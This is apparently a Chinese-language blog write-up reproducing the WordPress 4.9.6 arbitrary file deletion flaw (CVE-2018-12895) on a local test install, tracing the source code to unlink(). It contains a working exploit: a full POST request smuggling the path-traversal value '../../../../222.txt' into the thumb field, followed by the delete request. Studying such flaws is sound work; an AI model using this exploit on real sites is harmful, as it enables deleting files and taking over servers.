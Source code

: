 ```yaml
---
layout: post
title: "CVE-2018-12895 (Wordpress _= 4.9.6 任意文件刪除)"
description: ""
date: 2023-07-11
categories:
  - CVE
  - WordPress
author: ""
tags: ['CVE', 'WordPress', '任意文件刪除']
---
```









# CVE-2018-12895 (Wordpress <= 4.9.6 任意文件删除漏洞)

###### tags: `CVE` `wordpress`

版本:
wordpress: 4.9.0 - 4.9.6

WP管理者需要給一個帳號至少是author。

在wp目錄下創 222.txt (之後要刪除這個文件)



### 拉一張圖片上去並編輯
http://localhost/wp-admin/media-new.php





### 跳轉到編輯:
http://localhost/wp-admin/post.php?post=16&action=edit
(注意post=16 這邊會不一樣。)



### 此時f12尋找 _wpnonce  找到下面兩個
```
POST 提交需要驗證這個值
<input type="hidden" id="_wpnonce" name="_wpnonce" value="ce98612b1e">



第二步刪除文件是這個網址
<a class="submitdelete deletion" onclick="return showNotice.warn();" href="http://localhost/wp-admin/post.php?post=15&amp;action=delete&amp;_wpnonce=dfbd76d7c2">Delete Permanently</a>

也就是:
GET
http://localhost/wp-admin/post.php?post=16&action=delete&_wpnonce=dfbd76d7c2


```



### update 按鈕這邊開BP抓包:

POST數據 刪掉改成下面的
```http=
POST /wp-admin/post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://localhost/wp-admin/post.php?post=16&action=edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 801
Origin: http://localhost
Connection: close
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=test1%7C1678431720%7CYMV4UCh7IgXLCFEe1HqrgljbsECoj0EUYb6Qq1fCiHl%7Cb9ac91292e29beb9deec347481ccd215316087dcd762860f5ca8a868f985095b; Phpstorm-f62ebc4=0f75a308-192c-46b6-9825-3efeef40150b; wp-settings-time-2=1678263454; XDEBUG_SESSION=PHPSTORM; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=test1%7C1678431720%7CYMV4UCh7IgXLCFEe1HqrgljbsECoj0EUYb6Qq1fCiHl%7Cb0612ec960b2176d7f4600c03bf7da47974d6ea1e9b3d5ee559f2d278b3a4f35
Upgrade-Insecure-Requests: 1

action=editattachment&_wpnonce=ce98612b1e&post_ID=16&thumb=../../../../222.txt
```


稍微分析一下
```
action=editattachmen 
//代表進去  editattachmen 選項

_wpnonce=ce98612b1e
//驗證

post_ID=16
//你編輯的圖片ID


thumb=../../../../222.txt
//圖片的thumb 被我們竄改

```

此時你可以用PHPSTORM跟進去。




wp-admin/post.php
```php=

case 'editattachment':
	check_admin_referer('update-post_' . $post_id);

	// Don't let these be changed
	unset($_POST['guid']);
	$_POST['post_type'] = 'attachment';

	// Update the thumbnail filename
	$newmeta = wp_get_attachment_metadata( $post_id, true );
	$newmeta['thumb'] = $_POST['thumb'];

	wp_update_attachment_metadata( $post_id, $newmeta );


```

$_POST['thumb'] 沒過濾
```php=
$newmeta['thumb'] = $_POST['thumb'];
```

你如果慢慢跟進，會發現最後 圖片屬性會被序列化，我們的thumb 在最後面

進 sql
```
UPDATE `wp_postmeta` SET `meta_value` = 'a:6:{s:5:\"width\";i:289;s:6:\"height\";i:174;s:4:\"file\";s:14:\"2023/03/da.jpg\";s:5:\"sizes\";a:2:{s:9:\"thumbnail\";a:4:{s:4:\"file\";s:14:\"da-150x150.jpg\";s:5:\"width\";i:150;s:6:\"height\";i:150;s:9:\"mime-type\";s:10:\"image/jpeg\";}s:32:\"twentyseventeen-thumbnail-avatar\";a:4:{s:4:\"file\";s:14:\"da-100x100.jpg\";s:5:\"width\";i:100;s:6:\"height\";i:100;s:9:\"mime-type\";s:10:\"image/jpeg\";}}s:10:\"image_meta\";a:12:{s:8:\"aperture\";s:1:\"0\";s:6:\"credit\";s:0:\"\";s:6:\"camera\";s:0:\"\";s:7:\"caption\";s:0:\"\";s:17:\"created_timestamp\";s:1:\"0\";s:9:\"copyright\";s:0:\"\";s:12:\"focal_length\";s:1:\"0\";s:3:\"iso\";s:1:\"0\";s:13:\"shutter_speed\";s:1:\"0\";s:5:\"title\";s:0:\"\";s:11:\"orientation\";s:1:\"1\";s:8:\"keywords\";a:0:{}}s:5:\"thumb\";s:21:\"../../../../222.txt\n\";}' WHERE `wp_postmeta`.`meta_id` = 35;

```



休息一下... 接下來進入第2步


作者利用了編輯介面的刪除選項，就是我們最開始找到的GET 請求:
(記住_wpnonce 要根據自己的環境設置)

```
http://localhost/wp-admin/post.php?post=16&action=delete&_wpnonce=dfbd76d7c2

post=16
//編輯圖片的ID

action=delete
//進入 delete 模塊


_wpnonce=dfbd76d7c2
//刪除動作驗證




```


wp-admin/post.php
```php=
case 'delete':
	check_admin_referer('delete-post_' . $post_id);

	if ( ! $post )
		wp_die( __( 'This item has already been deleted.' ) );

	if ( ! $post_type_object )
		wp_die( __( 'Invalid post type.' ) );

	if ( ! current_user_can( 'delete_post', $post_id ) )
		wp_die( __( 'Sorry, you are not allowed to delete this item.' ) );

	if ( $post->post_type == 'attachment' ) {
		$force = ( ! MEDIA_TRASH );
		if ( ! wp_delete_attachment( $post_id, $force ) )
			wp_die( __( 'Error in deleting.' ) );
	} else {
		if ( ! wp_delete_post( $post_id, true ) )
			wp_die( __( 'Error in deleting.' ) );
	}

	wp_redirect( add_query_arg('deleted', 1, $sendback) );
	exit();

```






你慢慢跟進會走到最後 wp_delete_attachment 這個刪除附件函數的結尾附近

wp-includes/post.php 
```php=
if ( ! empty($meta['thumb']) ) {
    // Don't delete the thumb if another attachment uses it.
    if (! $wpdb->get_row( $wpdb->prepare( "SELECT meta_id FROM $wpdb->postmeta WHERE meta_key = '_wp_attachment_metadata' AND meta_value LIKE %s AND post_id <> %d", '%' . $wpdb->esc_like( $meta['thumb'] ) . '%', $post_id)) ) {
        $thumbfile = str_replace(basename($file), $meta['thumb'], $file);
        /** This filter is documented in wp-includes/functions.php */
        $thumbfile = apply_filters( 'wp_delete_file', $thumbfile );
        @ unlink( path_join($uploadpath['basedir'], $thumbfile) );
    }
}


```

thumb 剛剛進sql了 現在被撈出來

```
$meta['thumb'] = ../../../../222.txt


unlink 最後會刪除 222.txt

```



心得:

這個洞還算比較簡單的，我在想就是一個$_POST 沒過濾，還可以進庫，最後居然可以從庫撈出。利用的發現過程可能是最以挑戰性的地方。





























